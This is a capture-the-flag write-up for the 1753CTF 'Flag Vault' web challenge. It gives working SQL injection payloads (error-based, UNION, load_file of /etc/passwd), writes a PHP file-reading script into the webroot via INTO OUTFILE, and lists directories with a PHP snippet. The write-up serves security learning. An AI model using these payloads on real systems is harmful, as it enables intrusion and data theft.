 # WEB //   🔐 Flag Vault

Our Flag Storage as a Service is finally launched! We know there was a little delay, but our new investor wanted us to go through a security review. But we are now 100% secure and no hacker will ever steal our client's flags.

https://flag-vault-5a37f69100fc.1753ctf.com/

# Writeup

The text on the page talks about `sql injection in search`, pressing the hashtags adds `?search=tag` to the query. Then it talks about having data in `/var/www/html/backups` and dumps data there. It also shows a lot of disabled PHP functions which led us to believe that we were supposed to execute PHP code. Now the task was just to figure out how?

I tried a lot of possible injections and found out that `'` threw an error. After a bit of testing I concluded that the query looked something like this:

```sql
SELECT * FROM table WHERE something LIKE '%<string>%' ORDER BY id DESC;
```

I could manipulate the `<string>` portion and after a bit of googling I found [this](https://portswigger.net/web-security/sql-injection/cheat-sheet) website showing I could extract data via errors. 

```sql
'  AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT "TEST")))#
```

And bingo

![Alt text](image.png)

I used this to extract a bunch of data but not quite what I wanted,

`'  AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT user FROM user LIMIT 6,1)))#` gave `root`
`'  AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT schema_name FROM information_schema.schemata LIMIT 2,1)))` shows a `test` database

Then after a while I find this [page](https://portswigger.net/web-security/sql-injection/union-attacks) showing how to use UNION to extract data. 

`' UNION SELECT 'Data','hehe',user() #` gives a PHP error:

```
Fatal error: Uncaught DateMalformedStringException: Failed to parse time string (hehe) at position 0 (h): The timezone could not be found in the database in /var/www/html/index.php:23 Stack trace: #0 /var/www/html/index.php(23): DateTime->__construct('hehe') #1 /var/www/html/index.php(44): print_changelog() #2 {main} thrown in /var/www/html/index.php on line 23
```  

So I'm guessing we have `id`, `date`, `message`. So I started crafting a query and found this working recipe:

```sql
' UNION SELECT null,'04-01-2099',<INSERT QUERY HERE> #
```

That quickly gave me `LFI` with `load_file('/etc/passwd')` as a query:

![Alt text](image-1.png)

But I do not know what file to get? I now figured out that MySQL could write files using: 

```sql
' UNION SELECT null,'04-01-2099', '<?php show_source($_GET["file"]); ?>' into outfile '/var/www/html/kaospilot1.php' #
```

Using this I had a `LFI` PHP File. 

![Alt text](image-2.png)

But since I now can write custom PHP scripts I can make a script to find all directories. Unfortunally most of the functions from PHP is blocked but Google shows me 

```php
<?php $t = new RecursiveDirectoryIterator("/var/www/html");foreach(new RecursiveIteratorIterator($t) as $file =>$key) { echo $file."<br/>"; } ?>
```

Now I find all the files and directories in `/var/www/html` and find a file in `/var/www/html/backups` called `flags_1677599396982.txt` and I can read it using `load_file('/var/www/html/backups/flag.txt')` or the PHP LFI i created earlier on.

![Alt text](image-3.png)

![Alt text](image-4.png)
